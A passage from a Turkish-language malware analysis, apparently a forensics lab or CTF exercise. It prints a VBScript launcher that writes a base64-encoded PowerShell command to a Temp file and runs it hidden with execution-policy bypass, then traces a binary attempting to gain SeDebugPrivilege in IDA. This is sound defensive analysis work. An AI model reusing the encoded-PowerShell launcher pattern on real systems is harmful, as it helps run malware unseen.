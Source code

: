     filetxt.WriteLine ("powershell -enc UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAEMAOgBcAFUAcwBlAHIAcwBcAFIAaQBjAGsATQBhAHIAdABpAG4ARwByAGkAbQBlAHMAXABBAHAAcABEAGEAdABhAFwATABvAGMAYQBsAFwAVABlAG0AcABcAEEAYwBjAGUAcwBzAFQAbwBrAGUAbgAuAGUAeABlAA==")
    Set oshell = CreateObject("WScript.Shell")
	filetxt.Close
    oshell.Run "powershell -exec bypass C:\Users\RickMartinGrimes\AppData\Local\Temp\notabadpowershell.ps1", 0, True D
```

Base64 ile bir kodlama yapıldığını görüyorum. CyberChef ile decode ediyorum. AV Bypass için yapılan Null Byte'lardan kurtulmak gerekebiliyor.

![image](https://user-images.githubusercontent.com/88983987/220226850-10caec56-fbe2-423a-a34d-356ab95f564c.png)

Bu dosya, çalıştırıldığında ```"C:\Users\RickMartinGrimes\AppData\Local\Temp\"``` konumunda, ```notabadpowershell.ps1``` adında bir dosya oluşturuyor. Ardından içerisine base64 ile kodlanmış metini yerleştiriyor ve dosyayı çalıştırıyor. 
```
Decoded:
Start-Process C:\Users\RickMartinGrimes\AppData\Local\Temp\AccessToken.exe
```
Bu bir dropper değil ve bir iletişim kurmuyor, sadece virüsün tetiklenmesini sağlıyor. 

Bu dosyanın çalıştırıp çalıştırılmadığını, Temp klasörü altında "notabadpowershell.ps1" adlı bir dosyanın olup olmamasından anlayabiliriz. FTK Imager ile hızlıca kontrol ediyoruz. Kontrol için ```C:\Users\RickMartinGrimes\AppData\Local\Temp\``` klasörüne gidiyoruz. 

![image](https://user-images.githubusercontent.com/88983987/220228062-a86bad7a-8037-4aa6-b109-520cd70e5bf4.png)

Dosya çalıştırılmış. Not edip, devam ediyoruz.

"accesstoken.exe" adlı dosyayı IDA üzerinde incelemeye alıyorum.

![image](https://user-images.githubusercontent.com/88983987/220233402-ea8ed342-a567-4ffa-9e3d-46b7bc81ce32.png)

Burda açıklanması gereken bir kaç nokta var. Program ilk çalıştığında atamalarını yaptıktan sonra, ```sub_4011C0``` alt programını çağırıyor. Bu alt program, kullanıcı adı verisini döndürüp ```eax```'ın bulunduğu memory alanına yazıyor. Ardından eax'ın bulunduğu memory alanındaki veriler okunup:
```
push eax
push    offset Format   ; "Su anki kullanici: %s\n"
```
komutları ile biçimlendirilerek ekrana yazdırılıyor. Yani eğer bu programın çalıştığı bilgisayardaki kullanıcının adı User ise, çıktı şu şekilde olmalı:
```
 "Su anki kullanici: User"
```
Ardından kullanıcımızın privilege (yetki) değerini ölçen bir kod bloğu var.

![image](https://user-images.githubusercontent.com/88983987/220234161-181f5521-4674-4333-ba27-aacf50ff1405.png)

CreateToolhelp32Snapshot fonksiyonu ile geçici bir snapshot oluşturuluyor, ardından Process32FirstW fonksiyonu ile process listteki ilk işlemi seçiyor. Ardından bunları bir yapıya yerleştiriyor.

![image](https://user-images.githubusercontent.com/88983987/220234533-afeec50b-0cce-4c0b-8536-507700606226.png)

Daha sonra, elde ettiği veriler ile "SeDebugPrivilege" yetkisini elde etmeye çalışarak, işlemin kendi yetkisini yükseltmeye çalışıyor.

```